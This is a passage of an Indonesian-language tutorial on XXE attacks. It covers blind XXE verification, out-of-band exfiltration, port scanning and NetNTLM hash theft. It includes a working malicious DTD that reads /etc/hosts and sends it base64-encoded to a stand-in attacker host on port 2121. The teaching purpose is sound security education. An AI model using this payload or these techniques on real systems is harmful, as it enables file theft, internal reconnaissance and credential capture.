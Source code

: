 Apabila mendapatkan response dari server target berarti bisa dipastikan vulnerable blind xxe. 

![](https://i.imgur.com/iC4St5c.png)

### OOB XXE

Apabila target sudah diverifikasi dan mendapatkan response yang menandakan vulnerable XXE, langkah selanjutkan adalah melakukan exfiltration terhadap data yang ingin dibaca.

remote dtd nya bernama `evil.dtd` disimpan di server attacker, isi nya :

```markup
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://attacker.server:2121/?%file;'>">
```

Pada payload diatas, filenya menggunakan wrapper php base64 tujuannya adalah untuk menghindari adanya `whitespace` karakter pada data yang ingin diexfiltration karena pada `libxml` php url tidak boleh mengandung whitespace karakter.

![](https://i.imgur.com/ydJ0RT4.png)

**Cara kerja payload diatas sebagai berikut :** 

1. Parser akan mengambil external entity yang berada remote source di [http://attacker.server/evil.dtd](http://attacker.server/evil.dtd) 

2. paramter entity `file` akan membaca file `/etc/hosts` 

3. entity `all` akan membuat parameter entity bernama `send` 

4. entity `send` akan melakukan request ke [http://attacker.server:2121](http://attacker.server:2121) dan mengappend data dari entity file, sehingga url requests nya akan menjadi [http://attacker.server:2121/?DATABASE64](http://attacker.server:2121/?DATABASE64)

Pada server listener terdapat data yang diencode base64, apabila didecode isi nya adalah file `/etc/hosts` server target. 

![](https://i.imgur.com/Y7RT3Qo.png)

### XXE And Port Scan

Untuk melakukan port scanning sebenarnya sangat gampang, karena payload nya sama saja dengan saat melakukan verifikasi blind xxe. Dengan begitu attacker hanya perlu mengganti host ke `local server` dan port berapa yang ingin coba dihubungi. Indikator apakah port tertentu terbuka bisa dilihat dari response server, misal nya response time atau bahkan pesan error yang ditampilan \(apabila server mengaktifkan error reporting\).

Percobaan scanning port 9000. 

![](https://i.imgur.com/RzQ1bW3.png)

### XXE And NetNTLM

Pada Windows Server XXE juga dapat dimanfaatkan untuk melakukan stealing `NetNTLM` hash dengan bantuan tool `metasploit` ataupun [`Responder`](https://github.com/SpiderLabs/Responder), NetNTLM hash yang di steal tersebut TIDAK bisa digunakan untuk `Pass The Hash Attack` tapi bisa dilakukan crack untuk mendapatkan plaintext password.
